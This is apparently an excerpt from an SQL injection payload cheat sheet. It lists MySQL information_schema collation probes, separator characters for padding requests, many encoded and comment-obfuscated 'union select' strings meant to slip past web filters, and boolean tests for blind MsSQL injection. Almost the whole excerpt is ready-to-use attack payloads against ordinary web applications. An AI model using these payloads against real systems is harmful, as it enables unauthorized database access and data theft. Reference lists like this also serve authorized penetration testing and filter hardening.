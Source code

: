 ```
(select(collation_name)from(information_schema.collations)where(id)=36 
(select(collation_name)from(information_schema.collations)where(id)=48 
(select(collation_name)from(information_schema.collations)where(id)=50 
------forever----
```

#### Adding Gaps between requests

```
testtest        nospace    0x1a
test*test       *              0x2a
test:test       :                0x3a
test::test      ::                0x3a3a
testJtest       J               0x4a
testZtest      Z              0x5a
testjtest        j               0x6a
testztest       z               0x7a
testtest        nospace     0x8a
testtest        nospace     0x9a
test test       SPACE     0x10a
Web Filter Bypass 'union select' keyword strigns
union select           
!UNiOn*/ /*!SeLEct*/
/**//*!12345UNION SELECT*//**/
/**//*!50000UNION SELECT*//**/
/**/UNION/**//*!50000SELECT*//**/
/*!50000UniON SeLeCt*/
union /*!50000%53elect*/
/*!%55NiOn*/ /*!%53eLEct*/
/*!u%6eion*/ /*!se%6cect*/
%2f**%2funion%2f**%2fselect
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A
/*--*/union/*--*/select/*--*/
/*!union*/+/*!select*/
union+/*!select*/
/**/union/**/select/**/
/**/uNIon/**/sEleCt/**/
/**//*!union*//**//*!select*//**/
/*!uNIOn*/ /*!SelECt*/
+union+distinct+select+
+union+distinctROW+select+
+UnIOn%0D%0ASeleCt%0D%0A 
/%2A%2A/union/%2A%2A/select/%2A%2A/
%2f**%2funion%2f**%2fselect%2f**%2f
union%23foo*%2F*bar%0D%0Aselect%23foo%0D%0A 
```

## MsSql blind exploitation

* For numeric contexts (look for differences):

```
and 1=1
and 1=2
```
